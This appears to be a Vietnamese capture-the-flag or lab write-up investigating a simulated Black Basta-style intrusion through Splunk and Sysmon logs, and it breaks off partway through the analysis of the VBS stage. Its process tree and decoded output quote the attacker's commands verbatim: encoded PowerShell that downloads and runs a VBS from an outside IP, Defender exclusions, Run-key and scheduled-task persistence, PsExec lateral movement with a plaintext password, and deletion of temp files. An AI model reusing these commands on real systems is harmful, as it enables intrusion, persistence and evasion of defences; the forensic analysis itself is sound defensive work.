# Black Basta Lab

# Thông tin chung

## Tình huống

A financial employee at OrionTech mistakenly downloaded a ZIP file from an email claiming to be from a trusted vendor. The attachment contained what appeared to be a document, but it initiated a chain of actions that compromised the system and led to a broader network intrusion.

Your objective is to analyze the artifacts left behind, track the attacker’s movements across the environment, and understand the techniques used at each stage of the kill chain.

## Danh sách host

| Host | IP |
|---|---|
| WS1 | `10.10.11.29` | 
| DC01 | `10.10.11.170` | 
| ITWS | `10.10.11.199` |

Domain: `FINANCEES.LOCAL`

# Điều tra

## Host 1 WS1 (10.10.11.29)

### 1.1 Tải tệp Zip

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 EventCode=15
| table _time process_id process_exec user TargetFilename Contents
| sort 0 _time
```



Vào **15:08:41**, trên host WS1, user knixon sử dụng msedge.exe tải về tệp C:\Users\knixon\Downloads\Financial Records.zip. MOTW (mark of the web) hay ADS Zone.Identifier cho thông tin tệp này được tải về từ URL http://54.93.105.22/Financial%20Records.zip 

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:14:24:00" latest="03/21/2025:15:30:00" EventCode=1 CommandLine="*winrar*Financial*"
| table _time parent_process_id parent_process_path process_id CommandLine
```



Sau khi tải tệp thành công, vào **15:08:48**, user knixon khởi chạy WinRar.exe (5692) giải nén tệp vừa tải về

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:08:00" latest="03/21/2025:16:00:00" process_id=5692 EventCode=11
| table _time TargetFilename
```



Vào **15:08:52**, tệp zip `Financial Records.zip` giải nén ra một tệp excel là `Financial Records.xlsm`, đuôi xlsm cho biết tệp này chứa macro

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:00:00" "Financial Records.xlsm" EventCode=15
| table _time TargetFilename Hash
```



Hash của `Financial Records.xlsm`:

- MD5: `1157A1B4C47091B7020143D00B5D2860`
- SHA256: `030E7AD9B95892B91A070AC725A77281645F6E75CFC4C88F53DBF448FFFD1E15`
### 1.2 Process tree
```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:08:00" EventCode=1
| table _time user IntegrityLevel LogonId LogonGuid parent_process_id parent_process_path process_id CommandLine
| sort _time
```
Hoạt động các process độc hại sau khi macro trong tệp "Financial Records.xlsm" được cho phép thực thi:
```
Các process dưới đều thực thi với Integrity level = medium, user = knixon, logonId = 0x10d103f, logonGuid = {c73af8d8-7497-67dd-3f10-0d0100000000}

                     [4348] C:\Windows\explorer.exe
2025-03-21 15:08:48  ├── [5692] "C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\knixon\Downloads\Financial Records.zip"
2025-03-21 15:08:55  ├── [10924] "C:\Program Files\Microsoft Office\Office16\EXCEL.EXE" /dde
2025-03-21 15:09:32  │   ├── [8600] "C:\Windows\System32\cmd.exe" /c powershell -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwA1ADQALgA5ADMALgAxADAANQAuADIAMgAvAEYANgB3ADEAUwA0ADgALgB2AGIAcwAnACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoATABPAEMAQQBMAEEAUABQAEQAQQBUAEEAXABUAGUAbQBwAFwARgA2AHcAMQBTADQAOAAuAHYAYgBzACIAOwAgAGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiACQAZQBuAHYAOgBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQBcAFQAZQBtAHAAXABGADYAdwAxAFMANAA4AC4AdgBiAHMAIgBgAA==
2025-03-21 15:09:55  │   │   └── [8824] powershell  -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwA1ADQALgA5ADMALgAxADAANQAuADIAMgAvAEYANgB3ADEAUwA0ADgALgB2AGIAcwAnACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoATABPAEMAQQBMAEEAUABQAEQAQQBUAEEAXABUAGUAbQBwAFwARgA2AHcAMQBTADQAOAAuAHYAYgBzACIAOwAgAGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiACQAZQBuAHYAOgBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQBcAFQAZQBtAHAAXABGADYAdwAxAFMANAA4AC4AdgBiAHMAIgBgAA==
								 -> Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"; cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"`
2025-03-21 15:12:02  │   ├── [11268] "C:\Windows\System32\cmd.exe" /c powershell -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwA1ADQALgA5ADMALgAxADAANQAuADIAMgAvAEYANgB3ADEAUwA0ADgALgB2AGIAcwAnACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoATABPAEMAQQBMAEEAUABQAEQAQQBUAEEAXABUAGUAbQBwAFwARgA2AHcAMQBTADQAOAAuAHYAYgBzACIAOwAgAGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiACQAZQBuAHYAOgBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQBcAFQAZQBtAHAAXABGADYAdwAxAFMANAA4AC4AdgBiAHMAIgBgAA==
2025-03-21 15:12:02  │   │   └── [12108] powershell  -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwA1ADQALgA5ADMALgAxADAANQAuADIAMgAvAEYANgB3ADEAUwA0ADgALgB2AGIAcwAnACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoATABPAEMAQQBMAEEAUABQAEQAQQBUAEEAXABUAGUAbQBwAFwARgA2AHcAMQBTADQAOAAuAHYAYgBzACIAOwAgAGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiACQAZQBuAHYAOgBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQBcAFQAZQBtAHAAXABGADYAdwAxAFMANAA4AC4AdgBiAHMAIgBgAA==
							     -> Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"; cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"`
2025-03-21 15:15:26  │   └── [3168] "C:\Windows\System32\cmd.exe" /c powershell -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwA1ADQALgA5ADMALgAxADAANQAuADIAMgAvAEYANgB3ADEAUwA0ADgALgB2AGIAcwAnACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoATABPAEMAQQBMAEEAUABQAEQAQQBUAEEAXABUAGUAbQBwAFwARgA2AHcAMQBTADQAOAAuAHYAYgBzACIAOwAgAGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiACQAZQBuAHYAOgBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQBcAFQAZQBtAHAAXABGADYAdwAxAFMANAA4AC4AdgBiAHMAIgA=
2025-03-21 15:15:27  │       └── [8684] powershell  -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwA1ADQALgA5ADMALgAxADAANQAuADIAMgAvAEYANgB3ADEAUwA0ADgALgB2AGIAcwAnACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoATABPAEMAQQBMAEEAUABQAEQAQQBUAEEAXABUAGUAbQBwAFwARgA2AHcAMQBTADQAOAAuAHYAYgBzACIAOwAgAGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiACQAZQBuAHYAOgBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQBcAFQAZQBtAHAAXABGADYAdwAxAFMANAA4AC4AdgBiAHMAIgA=
								 -> Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"; cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"
2025-03-21 15:15:29  │           └── [8732] "C:\Windows\system32\cmd.exe" /c C:\Users\knixon\AppData\Local\Temp\F6w1S48.vbs
2025-03-21 15:15:29  │               └── [1848] "C:\Windows\System32\WScript.exe" "C:\Users\knixon\AppData\Local\Temp\F6w1S48.vbs"
2025-03-21 15:15:34  │                   └── [8592] "C:\Windows\System32\regsvr32.exe" /s C:\Users\knixon\AppData\Local\Temp\WindowsUpdaterFX.dll
2025-03-21 15:15:35  │                       ├── [432] C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand "QQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4AUABhAHQAaAAgACIAJQBBAFAAUABEAEEAVABBACUALwBNAGkAYwByAG8AcwBvAGYAdAAiAA=="
2025-03-21 15:15:35  │                       │   └── [7860] powershell  -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand "QQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4AUABhAHQAaAAgACIAJQBBAFAAUABEAEEAVABBACUALwBNAGkAYwByAG8AcwBvAGYAdAAiAA=="
													 -> Add-MpPreference -ExclusionPath "%APPDATA%/Microsoft"
2025-03-21 15:15:35  │                       ├── [1432] C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand JABvAGIAagBTAGgAZQBsAGwAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AQwBvAG0ATwBiAGoAZQBjAHQAIABXAFMAYwByAGkAcAB0AC4AUwBoAGUAbABsADsAIAAkAG8AYgBqAFMAaABlAGwAbAAuAFIAZQBnAFcAcgBpAHQAZQAoACIASABLAEMAVQBcAFMAbwBmAHQAdwBhAHIAZQBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAEMAdQByAHIAZQBuAHQAVgBlAHIAcwBpAG8AbgBcAFIAdQBuAFwAVwBpAG4AZABvAHcAcwBVAHAAZABhAHQAZQByACIALAAgACIAdwBzAGMAcgBpAHAAdAAuAGUAeABlACAAJQBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQAlAC8AVABlAG0AcAAvAEYANgB3ADEAUwA0ADgALgB2AGIAcwAiACwAIAAiAFIARQBHAF8AUwBaACIAKQA=
2025-03-21 15:15:35  │                       │   └── [10696] powershell  -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand JABvAGIAagBTAGgAZQBsAGwAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AQwBvAG0ATwBiAGoAZQBjAHQAIABXAFMAYwByAGkAcAB0AC4AUwBoAGUAbABsADsAIAAkAG8AYgBqAFMAaABlAGwAbAAuAFIAZQBnAFcAcgBpAHQAZQAoACIASABLAEMAVQBcAFMAbwBmAHQAdwBhAHIAZQBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAEMAdQByAHIAZQBuAHQAVgBlAHIAcwBpAG8AbgBcAFIAdQBuAFwAVwBpAG4AZABvAHcAcwBVAHAAZABhAHQAZQByACIALAAgACIAdwBzAGMAcgBpAHAAdAAuAGUAeABlACAAJQBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQAlAC8AVABlAG0AcAAvAEYANgB3ADEAUwA0ADgALgB2AGIAcwAiACwAIAAiAFIARQBHAF8AUwBaACIAKQA=
													 -> $objShell = New-Object -ComObject WScript.Shell; $objShell.RegWrite("HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdater", "wscript.exe %LOCALAPPDATA%/Temp/F6w1S48.vbs", "REG_SZ")
2025-03-21 15:15:35  │                       ├── [5380] C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand "QQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4AUABhAHQAaAAgACIAJQBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQAlAC8AVABlAG0AcAAiAA=="
2025-03-21 15:15:35  │                       │   └── [6156] powershell  -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand "QQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4AUABhAHQAaAAgACIAJQBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQAlAC8AVABlAG0AcAAiAA=="
													 -> Add-MpPreference -ExclusionPath "%LOCALAPPDATA%/Temp"
2025-03-21 15:15:35  │                       ├── [10040] schtasks /Create /RU "NT AUTHORITY\SYSTEM" /SC ONLOGON /TN "WiindowsUpdate" /TR "C:\Windows\System32\regsvr32.exe /s %%localappdata%%\Temp\WindowsUpdaterFX.dll"
2025-03-21 15:15:35  │                       ├── [10536] C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand UwB0AGEAcgB0AC0AcAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQBcAFQAZQBtAHAAXABQAGEAbgBjAGEAawBlAC4AagBwAGcALgBlAHgAZQA=
2025-03-21 15:15:35  │                       │   └── [11848] powershell  -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand UwB0AGEAcgB0AC0AcAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBMAE8AQwBBAEwAQQBQAFAARABBAFQAQQBcAFQAZQBtAHAAXABQAGEAbgBjAGEAawBlAC4AagBwAGcALgBlAHgAZQA=
													 -> Start-process $env:LOCALAPPDATA\Temp\Pancake.jpg.exe
2025-03-21 15:15:39  │                       │       └── [10292] "C:\Users\knixon\AppData\Local\Temp\Pancake.jpg.exe"
2025-03-21 15:17:41  │                       │           ├── [6936] C:\Windows\system32\cmd.exe /C whoami
2025-03-21 15:17:41  │                       │           │   └── [9240] whoami
2025-03-21 15:18:41  │                       │           ├── [9464] C:\Windows\system32\cmd.exe /C ipconfig /all
2025-03-21 15:18:42  │                       │           │   └── [8380] ipconfig  /all
2025-03-21 15:20:42  │                       │           ├── [10344] C:\Windows\system32\cmd.exe /C systeminfo
2025-03-21 15:20:42  │                       │           │   └── [8332] systeminfo
2025-03-21 15:21:46  │                       │           ├── [11456] C:\Windows\system32\cmd.exe /C net group "domain admins" /domain
2025-03-21 15:21:46  │                       │           │   └── [2752] net  group "domain admins" /domain
2025-03-21 15:21:46  │                       │           │       └── [10248] C:\Windows\system32\net1  group "domain admins" /domain
2025-03-21 15:22:46  │                       │           └── [3964] C:\Windows\system32\cmd.exe /C net localgroup administrators
2025-03-21 15:22:46  │                       │               └── [1308] net  localgroup administrators
2025-03-21 15:22:46  │                       │                   └── [5224] C:\Windows\system32\net1  localgroup administrators
2025-03-21 15:15:35  │                       └── [10856] C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand "QQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4AUABhAHQAaAAgACIAQwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwATQBpAGMAcgBvAHMAbwBmAHQAXABzAHMAaAAiAA=="
2025-03-21 15:15:35  │                           └── [1940] powershell  -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand "QQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4AUABhAHQAaAAgACIAQwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwATQBpAGMAcgBvAHMAbwBmAHQAXABzAHMAaAAiAA=="
													 -> Add-MpPreference -ExclusionPath "C:\ProgramData\Microsoft\ssh"
													 
Các process dưới đều thực thi với Integrity level = High, user = knixon, logonId = 0x10d0e5d, logonGuid = {c73af8d8-7497-67dd-3f10-0d0100000000}	
													 
2025-03-21 15:23:21  ├── [6320] "C:\Users\knixon\AppData\Local\Temp\Pancake.jpg.exe"
2025-03-21 15:26:22  │   ├── [8296] C:\Windows\system32\cmd.exe /C bitsadmin /transfer "d" https://www.softperfect.com/download/files/netscan_portable.zip Netscan.zip
2025-03-21 15:26:22  │   │   └── [9892] bitsadmin  /transfer "d" https://www.softperfect.com/download/files/netscan_portable.zip Netscan.zip
2025-03-21 15:27:28  │   ├── [11572] C:\Windows\system32\cmd.exe /C bitsadmin /transfer "d" https://www.softperfect.com/download/files/netscan_portable.zip %%LOCALAPPDATA%%\Temp\Netscan.zip
2025-03-21 15:27:28  │   │   └── [9232] bitsadmin  /transfer "d" https://www.softperfect.com/download/files/netscan_portable.zip C:\Users\knixon\AppData\Local\Temp\Netscan.zip
2025-03-21 15:31:39  │   ├── [5792] C:\Windows\system32\cmd.exe /C dir
2025-03-21 15:37:39  │   ├── [6000] C:\Windows\system32\cmd.exe /C bitsadmin /transfer "d" http://www.softperfect.com/download/files/netscan_portable.zip %%LOCALAPPDATA%%\Temp\Netscan.zip
2025-03-21 15:37:39  │   │   └── [5204] bitsadmin  /transfer "d" http://www.softperfect.com/download/files/netscan_portable.zip C:\Users\knixon\AppData\Local\Temp\Netscan.zip
2025-03-21 15:42:49  │   ├── [10856] C:\Windows\system32\cmd.exe /C powershell Expand-Archive -LiteralPath '%%LOCALAPPDATA%%\Temp\Netscan.zip' -DestinationPath %%LOCALAPPDATA%%\Temp\
2025-03-21 15:42:49  │   │   └── [3636] powershell  Expand-Archive -LiteralPath 'C:\Users\knixon\AppData\Local\Temp\Netscan.zip' -DestinationPath C:\Users\knixon\AppData\Local\Temp\
2025-03-21 15:43:59  │   ├── [8600] C:\Windows\system32\cmd.exe /C %%LOCALAPPDATA%%\Temp\64-bit\netscan.exe /hide /range:10.10.11.1-10.10.255.255 /auto:results.xml
2025-03-21 15:43:59  │   │   └── [11384] C:\Users\knixon\AppData\Local\Temp\64-bit\netscan.exe  /hide /range:10.10.11.1-10.10.255.255 /auto:results.xml
2025-03-21 15:59:09  │   ├── [2096] C:\Windows\system32\cmd.exe /C bitsadmin /transfer "d" https://raw.githubusercontent.com/davehardy20/sysinternals/refs/heads/master/PsExec64.exe C:\Users\knixon\AppData\Local\Temp\PsExec64.exe
2025-03-21 15:59:10  │   │   └── [9064] bitsadmin  /transfer "d" https://raw.githubusercontent.com/davehardy20/sysinternals/refs/heads/master/PsExec64.exe C:\Users\knixon\AppData\Local\Temp\PsExec64.exe
2025-03-21 16:02:20  │   ├── [10856] C:\Windows\system32\cmd.exe /C dir
2025-03-21 16:04:20  │   ├── [2676] C:\Windows\system32\rundll32.exe
2025-03-21 16:06:21  │   ├── [10236] C:\Windows\system32\cmd.exe /C PsExec64.exe /accepteula \\10.10.11.170 -u financees.local\swhite -p "b&lt;ZITx4h1" whoami
2025-03-21 16:06:21  │   │   └── [10592] PsExec64.exe  /accepteula \\10.10.11.170 -u financees.local\swhite -p "b&lt;ZITx4h1" whoami
2025-03-21 16:08:31  │   ├── [10156] C:\Windows\system32\cmd.exe /C PsExec64.exe /accepteula \\10.10.11.170 -u financees.local\swhite -p "b&lt;ZITx4h1" hostname
2025-03-21 16:08:31  │   │   └── [4700]  PsExec64.exe  /accepteula \\10.10.11.170 -u financees.local\swhite -p "b&lt;ZITx4h1" hostname
2025-03-21 16:10:41  │   ├── [11688] C:\Windows\system32\cmd.exe /C PsExec64.exe \\financees.local -accepteula -s -c -f Pancake.jpg.exe
2025-03-21 16:10:42  │   │   └── [352] PsExec64.exe  \\financees.local -accepteula -s -c -f Pancake.jpg.exe
2025-03-21 16:52:52  │   └── [2332] C:\Windows\system32\cmd.exe /C cmd /c powershell Remove-Item -Path "$env:LOCALAPPDATA\Temp\*" -Recurse -Force
2025-03-21 16:52:52  │       └── [8792] cmd  /c powershell Remove-Item -Path "$env:LOCALAPPDATA\Temp\*" -Recurse -Force
2025-03-21 16:52:52  │           └── [9716] powershell  Remove-Item -Path "$env:LOCALAPPDATA\Temp\*" -Recurse -Force
2025-03-21 15:32:05  └── [1168] "C:\Windows\system32\cmd.exe"
2025-03-21 15:32:32      └── [1676] bitsadmin  /transfer "d" https://www.softperfect.com/download/files/netscan_portable.zip C:\Users\knixon\AppData\Local\Temp\Netscan.zip


```
### 1.3 Process Excel.exe (10924) – khởi chạy vào 2025-03-21 15:08:55

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:08:00" latest="03/21/2025:16:00:00" EventCode=1
| table _time user IntegrityLevel LogonId LogonGuid parent_process_id parent_process_path process_id CommandLine
| sort 0 _time
```

Từ 2025-03-21 15:08:55 đến 2025-03-21 15:15:27, sau khi user click vào tệp Financial Records.xslsm chứa macro, Excel.exe khởi chạy và sau đó spawn ra 3 process cmd.exe thực thi một lệnh powershell. Lệnh này decode base64 và thực thi một đoạn powershell với cửa sổ ẩn (-w Hidden) và bỏ qua việc nạp profile powershell (-NoP). Lần lượt decode 3 lệnh sử dụng cyberchef:

```powershell
Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"; cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"`

Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"; cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"`

Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"; cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"
```

Cả 3 lệnh này đều thực hiện tải 1 tệp vbs từ url http://54.93.105.22/F6w1S48.vbs, đặt tệp này vào thư mục Temp trong profile của user hiện tại dưới tên F6w1S48.vbs rồi spawn ra 1 process cmd.exe nữa nhằm thực thi tệp vbs vừa drop

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:08:00" latest="03/21/2025:15:35:00" EventCode=11 TargetFilename="*F6w1S48.vbs"
| table _time TargetFilename process_id Image
```



Event 11 chỉ ghi nhận process cmd.exe với PID 8684 thành công drop `F6w1S48.vbs` lúc **15:15:28**. Hai process cmd.exe (PID 11268 và 8600) spawn ra trước đó đều thất bại vì thừa dấu backtick (`) ở cuối

Một dấu vết khác nằm trong registry của Excel:

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:08:00" EventCode=13 (process_id=10924 OR SourceProcessId=10924)
| table _time registry_key_name registry_value_name registry_path
| sort 0 _time
```



Vào **15:09:23** và **15:09:25**, Excel đã ghi 2 giá trị liên quan tới `Financial Records.xlsm` vào key `Excel\Security\Trusted Documents\TrustRecords` (key được dùng để ghi nhớ các tệp Excel mà người dùng đã bấm "Tin tưởng" khi mở ra). Hai lần ghi tương ứng với hành vi user chủ động click chọn “enable editing” và “enable contents” (enable macro) sau khi mở tệp .xlsm trên

### 1.3 Phiên logon và quyền tài khoản knixon
```spl
index=main host=WS1 EventCode IN (4624, 4672) 0x10d103f
```


Log chưa cho thông tin Event ID 4624/4672 gắn với phiên login `0x10d103f` (phiên login xảy ra sự cố), nên chưa xác định đầy đủ nguồn gốc phiên này.

```spl
index=main source="XmlWinEventLog:Security" host=WS1 EventCode=4627 knixon
| table _time TargetUserName TargetUserSid GroupMembership
```



Tuy nhiên, ổ một phiên logon khác của user knixon, Event 4627 (Group membership information - event ghi lại toàn bộ group mà 1 user thuộc về sau khi login thành công) cung cấp thông tin về các group mà user này là thành viên, trong đó bao gồm FINANCEES\Domain Admins và BUILTIN\Administrators 

### 1.4 Process WScript.exe (PID = 1848) – khởi chạy tệp F6w1S48.vbs vào 2025-03-21 15:15:29

Process `WScript.exe` (1848) khởi chạy lúc **15:15:29** với command:

```text
"C:\Windows\System32\WScript.exe" "C:\Users\knixon\AppData\Local\Temp\F6w1S48.vbs"
```

```spl
index=main host=WS1 earliest="03/21/2025:15:08:00" EventCode=4689 process=*wscript.exe
| eval process_id=tonumber(process_id, 16)
| table _time process_name process_id
```


Process wscript.exe terminate sau khoảng 6 giây thực thi

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:20" latest="03/21/2025:15:16:00" process_id=1848 OR SourceProcessId=1848 OR parent_process_id=1848
| stats count by EventCode
```

Thống kê các event sysmon liên quan đến process này trong khoảng thời gian thực thi


```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:20" latest="03/21/2025:15:16:00" process_id=1848 EventCode=3
| table _time SourceIp SourcePort DestinationIp DestinationPort
```
Vào 2025-03-21 15:15:31,  ghi nhận Wscript.exe (1848) thực hiện kết nối tới external IP là 54.93.105.22 trên port 80 (giao thức HTTP) nhằm trà trộn vào traffic thông thường

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:20" latest="03/21/2025:15:16:00" process_id=1848 EventCode=29
